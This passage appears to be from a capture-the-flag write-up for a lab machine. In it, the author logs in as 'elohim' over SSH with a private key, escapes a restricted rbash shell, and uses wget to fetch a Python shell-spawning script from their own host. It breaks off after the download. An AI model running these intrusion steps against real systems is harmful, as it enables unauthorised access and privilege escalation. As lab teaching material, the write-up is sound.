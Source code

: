 Now I can access the `elohim` user using SSH:

```bash
talos@principle:~$ ./ssh -i .ssh/id_rsa elohim@127.0.0.1 -p 3445
./ssh -i .ssh/id_rsa elohim@127.0.0.1 -p 3445
The authenticity of host '[127.0.0.1]:3445 ([127.0.0.1]:3445)' can't be established.
ED25519 key fingerprint is SHA256:DKEXWHITnUq09/ftlMqD6Eo+e5eQoeR+HWleDkUB9fw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Warning: Permanently added '[127.0.0.1]:3445' (ED25519) to the list of known hosts.


Son, you didn't listen to me, and now you're trapped.
You've come a long way, but this is the end of your journey.

elohim@principle:~$ whoami && id
whoami && id
elohim
uid=1001(elohim) gid=1001(elohim) groups=1001(elohim),1002(sml)
elohim@principle:~$ ls -lash
ls -lash
total 40K
4.0K drwxr-xr-x 4 elohim elohim 4.0K Jul 14  2023 .
4.0K drwxr-xr-x 4 root   root   4.0K Jul  4  2023 ..
4.0K -rw------- 1 elohim elohim  289 Jul 14  2023 .bash_history
4.0K -rw-r----- 1 elohim elohim  261 Jul  5  2023 .bash_logout
4.0K -rw-r----- 1 elohim elohim 3.8K Jul 14  2023 .bashrc
4.0K -rw-r----- 1 elohim elohim  777 Jul 13  2023 flag.txt
4.0K drw-r----- 3 elohim elohim 4.0K Jul  2  2023 .local
4.0K -rw-r----- 1 elohim elohim   21 Jul 12  2023 .lock
4.0K -rw-r----- 1 elohim elohim  807 Jul  6  2023 .profile
4.0K drwx------ 2 elohim elohim 4.0K Jul  6  2023 .ssh
```

I have landed in a restricted shell (rbash):

```bash
elohim@principle:~$ cat flag.txt
cat flag.txt
rbash: cat:: No such file or directory
```

### Escaping rbash

I created a Simple Python script, saved locally on my host as `shell.py`:

```bash
import os; os.system("/bin/bash")
```

Using `wget`, I copied the file over and executing it:

```bash
elohim@principle:~$ wget http://192.168.0.51/shell.py
wget http://192.168.0.51/shell.py
--2024-08-03 08:48:13--  http://192.168.0.51/shell.py
Connecting to 192.168.0.51:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31 [text/x-python]
Saving to: ‘shell.py’

shell.py            100%[===================>]      31  --.-KB/s    in 0s      

2024-08-03 08:48:13 (217 KB/s) - ‘shell.py’ saved [31/31
```
